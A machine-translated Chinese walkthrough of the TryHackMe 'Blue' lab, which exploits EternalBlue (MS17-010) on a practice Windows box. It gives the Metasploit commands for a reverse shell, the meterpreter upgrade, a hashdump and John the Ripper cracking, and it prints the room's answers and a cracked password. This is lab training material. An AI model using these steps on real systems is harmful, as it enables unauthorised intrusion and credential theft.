# TryHackMe:蓝色

> 原文：<https://infosecwriteups.com/tryhackme-blue-671e0095bc45?source=collection_archive---------1----------------------->


这个房间基于 windows 机器，我们需要利用常见的错误配置。

**【任务 1】侦查**

在给定的机器上启动 nmap 扫描:

```
nmap -sV --script vuln -oN nmap/initial <ip>
```



我们发现端口 135、139、445、3389、49152、49153、49154、49158、49160 是打开的。

上面使用的 vuln 扫描使用一整类脚本来测试易受攻击的目标。



我们可以看到，sm b-vuln-ms17–010 利用远程代码执行漏洞。

> 端口号低于 1000 的开放端口有多少个？

```
3
```

> 这台机器容易受到什么攻击？(以:ms 的形式回答？？-?？？，例如:ms08–067)

```
ms17-010
```

**【任务二】获得权限**

我们启动 Metasploit 并搜索我们在初始侦察中发现的漏洞。

```
msfconsolemsf6 > search ms17-010
```



我们发现永恒的蓝色中小企业远程利用。

> **EternalBlue** 利用 SMBv1 漏洞插入恶意数据包，在网络上传播恶意软件。该漏洞利用了 Microsoft Windows 处理或错误处理恶意攻击者特制数据包的方式。

然后，我们选择漏洞并显示需要设置的选项。

```
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```



我们需要将 RHOSTS 设置为我们的 box IP 地址(在我的例子中，我需要将 LHOST 设置为我的 tun0 IP)。

```
set RHOSTS <ip>
set LHOST <ip>
```

我们按照指定的指令将有效负载设置为 windows/x64/shell/reverse_tcp。

```
set payload windows/x64/shell/reverse_tcp
```

然后我们开始利用。

```
exploit
```



为了检查我们当前的访问级别，我们使用 whoami 并得到:

```
nt authority\system
```

> 找到我们将在机器上运行的利用代码。代码的完整路径是什么？(例如:利用/……..)

```
exploit/windows/smb/ms17_010_eternalblue
```

> 显示选项并设置一个必需的值。这个值的名称是什么？(提交时全部大写)

```
RHOSTS
```

**【任务 3】升级**

现在，我们对当前的 shell (Ctrl+Z)进行后台处理，并将我们的 shell 转换为一个 meterpreter shell。

```
msf6 > search shell_to_meterpreter
msf6 > use 0
```

我们显示了当前所选漏洞的选项。我们设置 LHOST 和 SESSION。

```
set LHOST <ip>
set SESSION <session-no.>
```


我们运行这个漏洞并得到一个 meterpreter 会话。然后，我们使用 meterpreter 会话代替 shell。

```
sessions -i <meterpreter-session-no.>
```



现在我们有一个米普雷特会议。我们使用 getsystem 和 getuid 检查我们是否是 NT AUTHORITY\SYSTEM。我们作为一个系统运行，但这并不意味着我们的过程是。我们需要迁移到另一个流程。通常我们使用 services.exe。



> 如果你还没有，背景之前获得的外壳(CTRL + Z)。在线研究如何在 metasploit 中将 shell 转换为 meterpreter shell。我们将使用的 post 模块的名称是什么？(确切的路径，类似于我们之前选择的利用方式)

```
post/multi/manage/shell_to_meterpreter
```

> 选择此项(使用模块路径)。显示选项，我们需要更改什么选项？

```
SESSION
```

**【任务四】破解**

我们在一个高架的米特尔外壳里。我们可以使用 hashdump 命令并获取存储在机器上的密码散列。

```
meterpreter > hashdump
```



我们复制这个哈希，用开膛手约翰破解，同时用 rockyou.txt 单词表。

```
john --format=nt --wordlist=<path-to-wordlist> <hash>
```

默认情况下，约翰专注于 LM，而不是 NTLM 哈希。因此，我们需要将格式指定为 NT。



我们得到用户 Jon 的密码。

> 在我们提升的 meterpreter shell 中，运行命令' hashdump '。这将转储机器上的所有密码，只要我们有正确的权限这样做。非默认用户的名称是什么？

```
Jon
```

> 将这个密码哈希复制到一个文件中，研究如何破解它。被破解的密码是什么？

```
alqfna22
```

**【任务五】找旗子！**

因为我们有一个 meterpreter shell，所以我们可以在系统上搜索一个文件。

我们首先将目录改为 C:/(系统的根目录)。我们在系统根目录中找到 flag1.txt。



我们现在可以直接搜索标志，因为我们知道文件的格式。

```
meterpreter > search -f flag*txt
```



我们已经找到了系统上的所有文件，并成功地完成了房间。这些标志代表了我们需要知道的 Windows 系统中的关键位置。

> flag1？*这个标志可以在系统根目录下找到。*

```
flag{a****************e}
```

> flag2？*这个标志可以在 Windows 里面密码存放的位置找到。*

```
flag{s**************************s}
```

> flag3？可以在一个绝佳的地点找到这面旗帜。毕竟，管理员通常会保存一些非常有趣的东西。

```
flag{a*****************************e}
```

TryHackMe 简介:[https://tryhackme.com/p/kaneki10007](https://tryhackme.com/p/kaneki10007)